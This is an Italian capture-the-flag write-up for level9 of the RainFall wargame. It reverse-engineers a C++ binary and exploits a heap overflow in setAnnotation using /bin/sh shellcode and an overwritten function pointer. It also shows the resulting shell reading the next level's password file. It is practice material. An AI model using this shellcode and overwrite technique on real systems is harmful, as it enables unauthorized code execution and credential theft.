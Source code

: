 # Level 9
Controlliamo le stringhe presenti nel binario:
```
level9@RainFall:~$ readelf -p '.rodata' level9

String dump of section '.rodata':
  [     c]  T<0x88>^D^H:<0x87>^D^HN
  [    20]  P
```
purtroppo questa volta nulla di interessante, dunque passiamo a `gdb`:
```
level9@RainFall:~$ gdb -q level9
Reading symbols from /home/user/level9/level9...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048464  _init
0x080484b0  __cxa_atexit
0x080484b0  __cxa_atexit@plt
0x080484c0  __gmon_start__
0x080484c0  __gmon_start__@plt
0x080484d0  std::ios_base::Init::Init()
0x080484d0  _ZNSt8ios_base4InitC1Ev@plt
0x080484e0  __libc_start_main
0x080484e0  __libc_start_main@plt
0x080484f0  _exit
0x080484f0  _exit@plt
0x08048500  _ZNSt8ios_base4InitD1Ev
0x08048500  _ZNSt8ios_base4InitD1Ev@plt
0x08048510  memcpy
0x08048510  memcpy@plt
0x08048520  strlen
0x08048520  strlen@plt
0x08048530  operator new(unsigned int)
0x08048530  _Znwj@plt
0x08048540  _start
0x08048570  __do_global_dtors_aux
0x080485d0  frame_dummy
0x080485f4  main
0x0804869a  __static_initialization_and_destruction_0(int, int)
0x080486da  _GLOBAL__sub_I_main
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
0x08048770  __libc_csu_init
0x080487e0  __libc_csu_fini
0x080487e2  __i686.get_pc_thunk.bx
0x080487f0  __do_global_ctors_aux
0x0804881c  _fini
(gdb) disass main
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    movl   $0x1,(%esp)
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp)
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp)
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
   0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret
End of assembler dump.
```
Scopriamo che il binario è stato scritto in c++.
Nella funzione `main` vengono inizializzate due classi `N` tramite la funzione `new` e vengono
passati due valori diversi al costruttore, prima `5` e poi `6`.
Successivamente viene chiamata la funzione `setAnnotation` della prima classe passandogli il primo argomento
del binario che verrà copiato grazie a `memcpy` all'interno della classe stessa, per poi concludere chiamando
un puntatore a funzione all'interno della seconda classe che punta all'operatore `+` passandogli come argomento
la prima classe, così il programma termina la sua esecuzione restituendo la somma degli interi presenti nelle
due classi.

Nel binario non è presente alcuna chiamata a `system` dunque bisogna iniettare uno shellcode nell'argomento per
poi sovrascrivere il puntatore di `eip` e sostituire la chiamata alla funzione presente nella seconda classe
con l'esecuzione dello shellcode.
Tramite il sito (Buffer Overflow EIP Offset String Generator)[https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/]
ho individuato l'offset a 112 caratteri:
```
level9@RainFall:~$ gdb -q level9
Reading symbols from /home/user/level9/level9...(no debugging symbols found)...done.
(gdb) r $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6A"')
Starting program: /home/user/level9/level9 $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6A"')

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info registers eax
eax            0x41366441       1094083649
```
E uso il seguente shellcode:
```asm
section .text
global _start

_start:
  xor  eax, eax
  push eax
  push 0x68732f2f
  push 0x6e69622f
  mov  ebx, esp
  push eax
  push ebx
  mov  ecx, esp
  xor  edx, edx
  mov  al, 11
  and  esp, 0xfffffff0
  int  0x80

```
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\x83\xe4\xf0\xcd\x80
```
Ora siccome bisogna dereferenziare il puntatore che andre a sovrascrivere, basta inserire alla fine dello shellcode il
puntatore all'inizio dello shellcode che a sua volta come prima cosa avrà il puntatore a se stesso ma 4 byte più avanti.
L'indirizzo della stringa l'ho scoperto nel seguente modo:
```
level9@RainFall:~$ ltrace ./level9 usavoia
__libc_start_main(0x80485f4, 2, 0xbffff7e4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330)     = 0
_Znwj(108, 0xbffff7e4, 0xbffff7f0, 0xb7d79e55, 0xb7fed280)                = 0x804a008
_Znwj(108, 5, 0xbffff7f0, 0xb7d79e55, 0xb7fed280)                         = 0x804a078
strlen("usavoia")                                                         = 7
memcpy(0x0804a00c, "usavoia", 7)                                          = 0x0804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c)   = 0xb7fce4a0
+++ exited (status 11) +++
```
`0x0804a00c` è dunque l'indirizzo dove `memcpy` copierà lo shellcode, quindi basta procedere così:
```
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\x83\xe4\xf0\xcd\x80" + "A"*76 + "\x0c\xa0\x04\x08"')
$ id
uid=2009(level9) gid=2009(level9) euid=2010(bonus0) egid=100(users) groups=2010(bonus0),100(users),2009(level9)
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
$ exit
```
```
level9@RainFall:~$ su bonus0
Password: f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
bonus0@RainFall:~$
```
